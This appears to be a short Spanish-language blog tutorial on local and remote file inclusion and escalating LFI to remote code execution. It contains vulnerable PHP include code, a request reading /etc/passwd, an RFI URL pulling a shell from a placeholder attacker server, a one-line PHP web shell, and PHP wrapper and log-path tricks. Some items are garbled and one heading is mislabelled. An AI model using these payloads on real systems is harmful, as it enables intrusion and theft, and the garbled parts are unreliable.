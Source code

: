 ```yaml
---
layout: post
title:  "Aprendiendo a identificar los diferentes ataques basicos a nivel Web"
description: Aprendiendo sobre las Vulnerabilidades " LFI // RFI // RCE "
tags: Web Attacks
---
```

Empezaremos por aprender las principales Vulnerabilidades a nivel Web
  
# ~ LFI ~   Local File Inclusion

1.- La vulnerabilidad de Local File Inclusion se produce como consecuencia de un fallo en la programación de la página, filtrando inadecuadamente lo que se incluye al usar funciones en PHP para incluir archivos desde una variable.

-Ejemplo 1
Para poder corroborar si un sitio es vulnerable, se puede colocar un valor ilógico a la variable. 
En nuestro ejemplo tenemos: "http://localhost/index.php?page=" donde se coloca un valor, en este caso http://localhost/index.php?page=78se3, algo aleatorio que no se encuentre registrado.
Si arroja un error como Warning: main()… o Warning: include()… o similar entonces es probable que sea vulnerable a RFI o LFI

~ Archivo vulnerable de php mediante LFI ~ 
{% highlight php %}
<?php
include $_GET[‘pagina’];
?>
{% endhighlight %}

-Ejemplo 2
Nos montamos un servidor apache ($service apache2 start) que almacene dos archivos:
```
* example.php
* file.txt
```
Donde example.php seria:
{% highlight php %}
<?php
    $file = $_GET['filename'];
    include($file);
?>
{% endhighlight %}
Y file.txt:
``` 
Por Aqui Puede Haber Un LFI
```
Nosotros apuntando a nuestro servidor podrimos ya listar archivos Locales del servidor, atraves de la variable "filename"
{% highlight %}
http://localhost/example.php?filename=file.txt
http://localhost/example.php?filename=/etc/passwd
{% endhighlight %}

# ~ RFI ~   Remote File Inclusion
La vulnerabilidad de Remote File Inclusion se produce cuando:
Una página vulnerable que presente un aspecto similar a este en su URL:   " http://[servidor_victima]/index.php?page=plantilla.html "
El atacante (Nosotros) podriamos obtener una Shell en el servidor vulnerable mediante lo siguiente:
http://[servidor_victima]/index.php?page=http://[servidor_atacante]/shell.txt&&cmd=ls

Pudiendo contener el archivo shell.txt cualquier código, por ejemplo:
{% highlight php %} 
<?php
  system($cmd);
?>
{% endhighlight %}

# ~ RCE ~   Remote File Inclusion
Algunas formas comunes de pasar de un LFI a RCE:
Ahora, por lo general, cuando encuentro una inclusión de archivo local o LFI, primero trato de convertirlo en una ejecución remota de código.

> Trucos para convertir su LFI en RCE mediante el ~ Uso de formularios / funciones de carga de archivos:
```bash
Usando el contenedor de PHP  wait: // comando
Usando el archivo PHP wrapper  php: //
Usando el contenedor PHP  php: // filter
Usando PHP      input: // stream
Usando datos: // texto / plano; base64, comando
Usando / proc / self / environment
Usando / proc / self / fd
```
>Las siguientes Rutas importantes:
```bash
/var/log/apache/access.log
/var/log/apache/error.log
/var/log/vsftpd.log
/var/log/sshd.log
/var/log/mail
``` 
